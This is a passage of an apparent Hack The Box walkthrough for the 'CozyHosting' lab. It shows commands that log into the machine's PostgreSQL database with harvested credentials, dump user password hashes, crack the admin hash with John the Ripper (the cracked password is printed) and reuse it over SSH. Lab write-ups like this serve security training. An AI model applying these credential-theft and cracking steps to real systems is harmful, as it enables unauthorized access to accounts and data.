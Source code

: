 ![09-jar_properties](https://github.com/amalcew/htb-writeups/assets/73908014/3e64b51c-6ba1-41cf-95ea-26975cfec2e0)

Using the credentials, we can sign into the database stored on the machine:

```bash
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres -d cozyhosting
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# \pset pager off
Pager usage is off.
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$1***************************************************8zim | User
 admin     | $2a$1***************************************************O8dm | Admin
(2 rows)

```

Let's try crack those hashes using `john`. Attempt of cracking `kanderson`'s password was unsuccessful, but admin's password was easy to crack.

```bash
> john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:45 DONE (2024-02-22 19:24) 0.02182g/s 61.28p/s 61.28c/s 61.28C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

using the password on the webpage resulted in error 403, but some more snooping in the `/home` directory gave different user named `josh`. Connecting to this user was successful.

```bash
> ssh josh@10.10.11.230
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 29 09:03:32 AM UTC 2023

  System load:           0.39794921875
  Usage of /:            53.9% of 5.42GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             264
  Users logged in:       0
  IPv4 address for eth0: 10.129.229.88
```